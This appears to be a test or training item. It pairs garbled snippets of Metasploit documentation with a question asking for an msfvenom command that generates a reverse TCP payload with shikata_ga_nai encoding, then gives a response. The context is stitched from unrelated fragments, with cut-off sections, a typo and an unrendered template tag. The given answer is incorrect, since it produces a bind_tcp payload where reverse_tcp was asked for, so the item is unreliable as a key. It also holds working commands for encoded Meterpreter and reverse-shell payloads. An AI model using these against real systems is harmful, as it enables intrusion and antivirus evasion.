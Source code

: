 Context:```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

To find out what encoders you can use, you can use the -l flag:
## Using the Pivot
At this point we can now use the pivot with any Metasploit modules as shown below:
```msf
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
smsf6 payload(windows/x64/meterpreter/reverse_tcp) > set lhost 172.19.182.171
lhost => 172.19.182.171
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set lport 4578
lport => 4578
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
### Payloads modules ({{ site.metasploit_module_counts["payload"] }})
Payload modules can also be used individually to generate standalone executables, or shellcode for use within exploits:
```msf
msf6 payload(linux/x86/shell_reverse_tcp) > back
msf6 > use payload/linux/x86/shell_reverse_tcp
msf6 payload(linux/x86/shell_reverse_tcp) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 payload(linux/x86/shell_reverse_tcp) > set lport 4444
lport => 4444

 Question: Provide a Metasploit command using msfvenom to generate a reverse TCP payload that includes the shikata_ga_nai encoding strategy. Respond with only the msfvenom command, without any additional output or explanation. 

 Your response: 
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```